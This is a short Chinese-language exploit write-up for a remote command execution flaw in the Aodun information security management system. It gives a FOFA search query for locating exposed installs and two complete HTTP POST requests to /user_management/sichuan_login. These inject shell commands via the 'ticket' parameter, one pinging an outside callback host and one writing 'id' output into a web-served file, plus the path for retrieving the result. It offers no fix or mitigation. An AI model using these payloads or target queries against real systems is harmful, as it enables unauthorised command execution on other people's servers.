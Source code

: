 # 傲盾信息安全管理系统前台远程命令执行漏洞

# 一、漏洞简介
傲盾信息安全管理系统是傲盾网络科技股份有限公司的一个信息安全管理产品。该系统的前台存在远程命令执行漏洞,远程攻击者可以构造特殊的请求,注入系统命令,由于过滤不足,导致成功在目标服务器执行任意系统命令。 ,该远程命令执行漏洞的利用难度低，可导致远程命令执行。

# 二、影响版本
+ 傲盾信息安全管理系统

# 三、资产测绘
+ fofa`body="傲盾软件" && body="aodun/aodun.js"`
+ 特征

![1734507351814-666bd451-fc4e-49e9-884e-46941e2d1842.png](./img/iKy_I61sKHi42MYu/1734507351814-666bd451-fc4e-49e9-884e-46941e2d1842-462573.png)

# 四、漏洞复现
```java
POST /user_management/sichuan_login HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Content-Length: 97
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded

loginname=sysadmin&ticket=|ping tiqqklzooy.iyhc.eu.org
```

![1734507422139-2ded6327-4556-4eb0-82c8-9ed2e089e3a9.png](./img/iKy_I61sKHi42MYu/1734507422139-2ded6327-4556-4eb0-82c8-9ed2e089e3a9-169168.png)

```java
POST /user_management/sichuan_login HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Content-Length: 97
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded

loginname=sysadmin&ticket=|echo `id` > /adm/isms_web/static/base_static/js/aodun/1.txt
```

![1734525651756-bcce7769-4b89-414e-a37c-8129d0e6e578.png](./img/iKy_I61sKHi42MYu/1734525651756-bcce7769-4b89-414e-a37c-8129d0e6e578-034254.png)

```java
/static/base_static/js/aodun/1.txt
```

![1734525670803-4f2787df-a54e-4cc5-8e94-9858b4aacbb4.png](./img/iKy_I61sKHi42MYu/1734525670803-4f2787df-a54e-4cc5-8e94-9858b4aacbb4-639030.png)



> 更新: 2024-12-20 14:54:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/sdu622si610nmpvy>